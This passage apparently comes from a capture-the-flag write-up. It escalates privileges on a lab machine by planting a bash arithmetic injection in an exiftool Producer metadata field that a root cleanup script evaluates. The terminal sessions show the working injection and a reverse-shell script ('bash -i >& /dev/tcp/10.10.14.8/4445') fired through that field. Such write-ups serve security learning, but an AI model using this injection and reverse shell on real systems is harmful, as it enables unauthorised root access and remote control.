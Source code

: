 I spent a lot of time looking for vulnerabilities in exiftool. The server had two versions, and the one used by the script was older. So I was sure that this was what I needed to exploit. I found vulnerabilities in exiftool, but none that I could exploit.

I also tried to send a malicious payload in the producer to try to execute code in the `if` statement. Nothing I tried worked.

I found an interesting [blog post](https://www.vidarholen.net/contents/blog/?p=716). I tried the technique in the post, but it failed. 

```
www-data@interface:/tmp$ touch test

www-data@interface:/tmp$ exiftool -Producer='a[$(date >&2)]+42' test
    1 image files updated

www-data@interface:/tmp$ /usr/local/sbin/cleancache.sh

/usr/local/sbin/cleancache.sh: line 9: [[: a[$(date: bad array subscript (error token is "a[$(date")
Removing /tmp/test_original
```

I kept playing with it, and after some time I realized that it was the space that was the issue. If I removed it, the command got executed. 

```bash
www-data@interface:/tmp$ touch test

www-data@interface:/tmp$ exiftool -Producer='a[$(date>&2)]+42' test
    1 image files updated

www-data@interface:/tmp$ /usr/local/sbin/cleancache.sh
Mon Mar 13 00:01:37 UTC 2023
Removing /tmp/test_original
```

I create a small script to open a reverse shell to my machine. 

```bash
www-data@interface:/tmp$ cat /dev/shm/rev.sh
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.14.8/4445 0>&1'
```

I made the script executable and I modified the producer of a file to launch the script.

```bash
www-data@interface:/tmp$ chmod +x /dev/shm/rev.sh

www-data@interface:/tmp$ touch test

www-data@interface:/tmp$ exiftool -Producer='a[$(/dev/shm/rev.sh>&2)]+42' test
    1 image files updated
```
